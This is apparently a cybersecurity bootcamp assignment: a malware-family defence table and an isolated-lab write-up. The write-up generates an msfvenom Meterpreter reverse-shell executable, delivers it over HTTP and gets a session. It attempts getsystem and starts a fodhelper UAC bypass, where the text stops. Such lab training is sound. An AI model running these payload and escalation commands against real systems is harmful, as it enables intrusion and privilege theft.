# Day 4 Assignment — Client-Side Attacks, Payloads and Career Paths

**Submitted by:** Musab Ahmad  
**Candidate ID:** PSEB-2026-017582  
**Cohort:** PSEB-Cyber-ISB-02  
**Course:** Digital Forensics & Cyber Security Bootcamp — Atomcamp  
**Lab Target:** Windows 11 Pro x64 (`192.168.23.131`), isolated lab network  
**Attacker Platform:** Kali Linux 2026 x64 (`192.168.23.138`)  
**Date:** 18 November 2026  

---

## Executive Summary

This deliverable covers the complete practical requirements of **Day 4: Client-Side Attacks, Payloads and Career Paths**, divided into three core evaluation components:

1. **Task A (30%): Malware Classification Table (9 Families):** Comprehensive taxonomy covering all 9 malware families defined in Handout Section 1.1, mapping real named historic and modern examples, precise spread mechanisms, and the root defensive controls required to mitigate them. Includes an in-depth analysis of how the user-interaction requirement shapes technical vs. human-centric defense strategies.
2. **Task B (40%): Client-Side Payload & Privilege Escalation Lab:** An end-to-end technical lab executed across an isolated Virtual Machine network. Documents the generation of a staged reverse TCP Meterpreter payload (`msfvenom`), local listener configuration (`multi/handler`), web-based staging delivery (`python3 -m http.server`), initial code execution, an architectural analysis of why Windows UAC blocks unprivileged token impersonation (`getsystem`), successful bypass via the auto-elevating `fodhelper.exe` registry hijacker (`bypassuac_fodhelper`), and final privilege escalation to `NT AUTHORITY\SYSTEM`. Concludes with legal and ethical constraints under Pakistan's **PECA 2016**.
3. **Task C (30%): Career Statement & 3-Month Portfolio Plan:** A professional half-page career positioning statement focusing on **Web Penetration Testing / Application Security**, evaluating target professional certifications (eWPT, BSCP, eJPT), and laying out a measurable, milestone-driven 90-day portfolio development strategy.

---

## Task A (30%) — Malware Classification Table across 9 Families

The defense architecture of any enterprise relies fundamentally on understanding *how* malicious code enters the environment, whether execution relies on human fallibility, and which preventative control neutralizes the vector before impact. The table below covers the 9 malware families specified in Handout Section 1.1:

| Family | Named Example & Year | Spread / Delivery Mechanism | Primary Control That Would Have Stopped It | Defensive Reasoning (User Interaction vs. Technical Control) |
|---|---|---|---|---|
| **1. Virus** | **Melissa (1999)** | Attached itself to Microsoft Word documents using Visual Basic for Applications (VBA) macros. Spread via email to the first 50 contacts in Outlook when the recipient opened the doc. | **Disabling Office macros by default via Group Policy (GPO) & Email Attachment Filtering.** | **Requires User Action:** A virus cannot self-propagate across raw networks; execution requires a user to open an infected carrier host file. While user awareness training reinforces caution, hard technical enforcement (disabling unsigned macros and blocking macro-enabled formats at the mail gateway) eliminates the execution path entirely. |
| **2. Worm** | **WannaCry (2017)** | Self-propagated autonomously across LANs and the internet via the SMBv1 remote code execution vulnerability (EternalBlue / MS17-010) on port 445/tcp. | **Timely Patch Management (MS17-010) & Network Segmentation / Firewalling (blocking inbound port 445).** | **Zero User Action:** User awareness training is 100% useless against worms because no human interaction, click, or authentication is required. The worm infects vulnerable listening sockets automatically. Defense strictly demands network boundaries and vulnerability patching. |
| **3. Trojan** | **Zeus / Zbot (2007)** | Masqueraded as legitimate utility software, tax forms, or browser updates, delivered via drive-by downloads or phishing attachments. Once run, it injected code into browsers to steal banking credentials. | **Application Allowlisting (AppLocker / Windows Defender Application Control - WDAC) & Software Authenticode Verification.** | **Requires User Action:** Relies on social engineering and deceptive appearances. Restricting standard users from executing arbitrary unvetted executables and blocking downloads from untrusted repos prevents installation even if the user is deceived. |
| **4. Ransomware** | **LockBit (2019–Present)** | Delivered via weaponized phishing emails (macros/executables), compromised exposed RDP/VPN endpoints with brute-forced credentials, or affiliate access brokers. Encrypts core storage and threatens data exfiltration. | **Immutable / Air-Gapped Backups, Multi-Factor Authentication (MFA) on all Remote Access, & Endpoint Detection & Response (EDR) behavioral canaries.** | **Mixed Delivery:** Initial access often exploits human error (phishing) or perimeter negligence (unprotected RDP). While endpoint heuristics slow down encryption, **immutable offline backups** are the single control that preserves business continuity and eliminates attacker leverage. |
| **5. Spyware** | **FinFisher (FinSpy)** | Silently bundled with third-party software installers, distributed via spear-phishing, or injected via ISP-level spoofing. Logs keystrokes, steals passwords, and activates webcam/microphone. | **Endpoint Detection and Response (EDR) process-injection monitoring & Strict Software Source Validation.** | **Subtle Execution:** Operates silently in the background without overt disruption. Defenses require behavioral anomaly detection that alerts on unapproved background API hooks (`SetWindowsHookEx`) and process memory injection. |
| **6. Adware** | **Fireball (2017)** | Bundled into free software wrappers (e.g., freeware media players, fake PDF readers). Hijacks browser homepages, redirects search queries, and generates fraudulent ad clicks. | **Enterprise Software Repositories, Browser Management Policies, & Restricting Unsigned Download Repositories.** | **Requires User Action:** Users voluntarily accept bundled installers without reading installation steps. Controlled enterprise software catalogs and disabling browser extension sideloading via GPO neutralize adware vectors. |
| **7. Rootkit** | **TDL-4 / TDSS (2010)** | Secondary-stage implant dropped after initial exploit compromise. Installs into the Master Boot Record (MBR) or kernel space to subvert the operating system API and hide all associated malware files and sockets. | **Hardware-Enforced UEFI Secure Boot, Kernel-Mode Code Signing Enforcement, & Hardware TPM Verification.** | **Zero Subsequent User Action:** Once an attacker achieves kernel/ring-0 access, user-space detection tools cannot be trusted because OS query APIs are hooked. The primary defense must be preventative at the boot chain (Secure Boot) and firmware attestation. |
| **8. Botnet Agent** | **Mirai (2016)** | Scanned the internet for Telnet/SSH management ports on embedded IoT devices (cameras, routers) and brute-forced them using a hardcoded dictionary of 62 default credential pairs. | **Mandatory Default Credential Changing, Disabling Insecure Management Protocols (Telnet), & Isolating IoT onto dedicated VLANs.** | **Zero User Action:** Exploitability stemmed entirely from pre-configured vendor credentials exposed directly to public routing. Enforcing credential change policies on device provisioning completely prevents botnet infection. |
| **9. Fileless Malware** | **PowerShell Empire / Living-off-the-Land (LotL)** | Executes malicious commands directly in volatile memory (RAM) utilizing legitimate system binaries (`powershell.exe`, `wmic.exe`, `mshta.exe`, `rundll32.exe`) without writing binary payloads to disk. | **Script Block Logging (Event ID 4104), Constrained Language Mode, Sysmon Process Parentage Correlation, & SIEM Behavioral Analysis.** | **Technical / Native Abuse:** Traditional signature-based AV looking for disk artifacts fails completely against fileless attacks. Defense requires behavioral auditing that inspects CLI parameters and process lineage (e.g., `winword.exe` spawning `powershell.exe` with base64 arguments). |

---

### Strategic Architectural Insight: The Role of User Interaction

As formulated in Handout Section 1.2, **User Interaction is the governing metric of cyber defense design**:
1. **Low / Zero User Interaction (Worms, Rootkits, Botnets):**
   * Threats that propagate across raw network sockets or execute via automated hardware hooks cannot be mitigated by employee training. Sending security awareness emails to accountants will not stop WannaCry or Mirai.
   * **Required Strategy:** Pure architectural engineering — automated patch management pipelines, micro-segmentation, disablement of legacy protocols (SMBv1, Telnet), and hardware root of trust (UEFI Secure Boot).
2. **High User Interaction (Viruses, Trojans, Phishing-delivered Ransomware, Adware):**
   * These threats require a human trigger — double-clicking an attachment, enabling a macro, approving an elevation prompt, or entering credentials into a lookalike portal.
   * **Required Strategy:** A defense-in-depth model combining **administrative controls** (continuous security awareness, simulated phishing) with **technical guardrails** (application allowlisting, default macro disabling, mail sandboxing) so that even when a user makes an error, the operating system denies code execution.

---

## Task B (40%) — Payload Lab Write-Up & Privilege Escalation Analysis

### 1. Lab Environment Architecture

All testing was carried out in an entirely isolated virtual machine subnet configured in VMware Workstation. No external internet routing or production services were involved.

| Node Role | Operating System | Hostname | IP Address | MAC / Interface | Security Configuration |
|---|---|---|---|---|---|
| **Attacker / Listener** | Kali Linux 2026.x x64 | `kali` | `192.168.23.138/24` | `eth0` | Metasploit Framework v6, Python 3 HTTP Server |
| **Victim / Client** | Windows 11 Pro x64 | `DESKTOP-9NMD88A` | `192.168.23.131/24` | `Ethernet0` | User: `musab` (Standard interactive logon with Admin group membership), Defender disabled for lab execution |

---

### 2. Phase 1 — Environment Verification & Connectivity

Prior to initiating client-side exploitation, bidirectional network reachability was confirmed between the Windows 11 client and Kali Linux.

On Windows 11, `ipconfig` confirmed the target IP `192.168.23.131` and a 4-packet ICMP ping to Kali (`192.168.23.138`) returned `0% loss` with sub-millisecond round trip times:



To prevent signature interference during educational verification of the underlying Windows token mechanics, Windows Defender Real-Time Protection and Cloud-delivered protection were disabled in Windows Security:



On Kali Linux, `ip a show eth0` confirmed the static listener address `192.168.23.138/24`:



---

### 3. Phase 2 — Reverse TCP Payload Generation (`msfvenom`)

A Windows Meterpreter staged reverse TCP payload was generated on Kali Linux using `msfvenom`.

```bash
root@kali:~# KALI_IP=192.168.23.138
root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.23.138 LPORT=4433 -f exe -o win.exe
```

* **Payload Breakdown:**
  * `-p windows/meterpreter/reverse_tcp`: Specifies a 32-bit staged reverse TCP payload. The compiled executable acts as a lightweight stager (~354 bytes of shellcode packaged in a 73,802-byte PE header) that connects back to Kali, allocates memory, and pulls down the reflective DLL (`metsrv.dll`) stage.
  * `LHOST=192.168.23.138`: The listener IP address (Kali). In reverse shell architecture, the victim initiates an outbound TCP handshake to this address.
  * `LPORT=4433`: The dedicated listening TCP port on Kali.
  * `-f exe -o win.exe`: Packages the shellcode into a standalone Windows portable executable (`win.exe`).



---

### 4. Phase 3 — Listener Setup & Web-Based Staging Delivery

On Kali Linux, Metasploit's multi-handler was configured to wait for the incoming connection:

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.23.138
msf6 exploit(multi/handler) > set LPORT 4433
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.23.138:4433
```



Simultaneously, a Python 3 HTTP server was started in the directory hosting `win.exe` to simulate a client-side web download vector:

```bash
root@kali:~# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

From the Windows 11 client, the browser navigated to `http://192.168.23.138:8000/` and downloaded `win.exe`. The Python access logs recorded the successful HTTP GET requests (`HTTP/1.1 200` and `304`):



---

### 5. Phase 4 — Execution & Initial Meterpreter Session

Upon running `win.exe` on the Windows 11 client, the payload executed, established an outbound TCP connection to `192.168.23.138:4433`, and received the secondary Meterpreter stage:

```text
[*] Sending stage (176198 bytes) to 192.168.23.131
[*] Meterpreter session 1 opened (192.168.23.138:4433 -> 192.168.23.131:50251) at 2026-11-18 05:45:59 -0600
meterpreter > getuid
Server username: DESKTOP-9NMD88A\musab
```

The initial session was successfully established as standard user `DESKTOP-9NMD88A\musab`:



---

### 6. Phase 5 — Privilege Escalation Failure: The UAC Token Boundary

In an attempt to immediately gain full administrative authority, the standard automated privilege escalation command `getsystem` was invoked:

```text
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: All pipe instances are busy. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
[-] Named Pipe Impersonation (PrintSpooler variant)
[-] Named Pipe Impersonation (EFSRPC variant - AKA EfsPotato)
```



#### Architectural Analysis: Why UAC Blocks Direct `getsystem`

The failure of `getsystem` demonstrates the core security architecture of modern Windows access tokens:

1. **Dual-Token Architecture (Filtered Tokens):**
   * When an administrative user logs into Windows interactively with **User Account Control (UAC)** enabled, the Local Security Authority Subsystem Service (`LSASS`) generates **two separate access tokens**:
     1. A **Full Elevated Token** (holding administrative SIDs such as `S-1-5-32-544` / Builtin Administrators and full privileges like `SeDebugPrivilege`, `SeImpersonatePrivilege`, `SeTakeOwnershipPrivilege`).
     2. A **Filtered / Restricted Medium-Integrity Token** where high-privilege SIDs are marked `USE_FOR_DENY_ONLY` and administrative privileges are stripped.
   * Standard applications, web browsers, and any downloaded executable (including `win.exe`) inherit the **Medium Integrity Token** by default.
2. **Failure of `getsystem` Techniques:**
   * **Technique 1 & 2 (Named Pipe Impersonation):** Creates a named pipe and starts a Windows Service as `NT AUTHORITY\SYSTEM` that connects to the pipe, allowing Meterpreter to call `ImpersonateNamedPipeClient()`. Because our current process is running at **Medium Integrity without `SeImpersonatePrivilege` or `SeCreateGlobalPrivilege`**, the process is denied permission to register services or impersonate elevated clients across integrity levels.
   * **Technique 3 (Token Duplication):** Attempts to open a high-privilege process (such as `lsass.exe` or `winlogon.exe`) via `OpenProcess()` with `PROCESS_DUP_HANDLE` or `PROCESS_QUERY_INFORMATION`. The Windows Security Reference Monitor denies this cross-integrity access from Medium to High/System integrity.
   * **Potato Exploits (EfsPotato/PrintSpooler):** Require `SeImpersonatePrivilege` to bind local RPC interfaces, which is absent in standard medium integrity tokens.

Therefore, privilege escalation to SYSTEM is strictly impossible until the process **first crosses from Medium Integrity to High Integrity via a UAC bypass**.

---

### 7. Phase 6 — Backgrounding & UAC Bypass Selection

To proceed with privilege escalation, session 1 was placed into the background:

```text
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > sessions
```

Listing sessions verified `Session 1` active as `meterpreter x86/windows` on `192.168.23.131:50251`:



A search was performed in Metasploit for available UAC bypass vectors:

```bash
msf6 exploit(multi/handler) > search bypassuac
```



Among the options, `exploit/windows/local/bypassuac_fodhelper` was chosen.

---

### 8. Phase 7 — Exploiting UAC via `fodhelper.exe` Auto-Elevation

The module `windows/local/bypassuac_fodhelper` abuses a trusted auto-elevating binary in Windows:

```bash
msf6 > use exploit/windows/local/bypassuac_fodhelper
msf6 exploit(windows/local/bypassuac_fodhelper) > set SESSION 1
msf6 exploit(windows/local/bypassuac_fodhelper) > set LHOST 192.168.23.138
msf6 exploit(windows/local/bypassuac_fodhelper) > set LPORT 4433
msf6 exploit(windows/local/bypassuac_fodhelper) > exploit
```

